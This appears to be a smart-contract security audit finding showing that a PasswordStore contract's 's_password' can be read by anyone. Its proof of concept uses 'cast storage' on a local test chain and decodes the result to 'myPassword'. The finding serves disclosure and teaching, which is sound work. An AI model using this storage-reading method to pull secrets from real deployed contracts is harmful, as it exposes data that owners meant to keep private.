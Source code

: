 ### [S-#] Storing the password on-chain makes it visible to everyone and no longer to private.

**Description:** All data stored on blockchain and can be read directly from the blockchain. The `PasswordStore::s_password` variable is intended to be private variable and only accessd through the `PasswordStore::getPassword` function which is intended to be only called by the owner of the contract.

We show one such method of reading any data below:

**Impact:** Anyone can read the password which is supposed to be private, severly breaking the functionality of the protocol/

**Proof of Concept:**(Proof of Code)
The Below test case shows how anyone can read the password directly from the blockchain.

1. Create a local running chain
```bash
make anvil
```
2. Deploy the contract on chain
```
make deploy
```

3.Run the Storage Tool: We use `1` because that's the storage slot of `s_password` in the contract

```
cast storage <ADDRESS_HERE> 1 --rpc-url http://127.0.0.1:8545
```
you will get an output like this 
`0x6d7950617373776f726400000000000000000000000000000000000000000014`

You can parse that hex into a string with 
```
cast parse-bytes32-string 0x6d7950617373776f726400000000000000000000000000000000000000000014
```
You will get an output  of:
```
myPassword
```

**Recommended Mitigation:** Rethink the whole architecture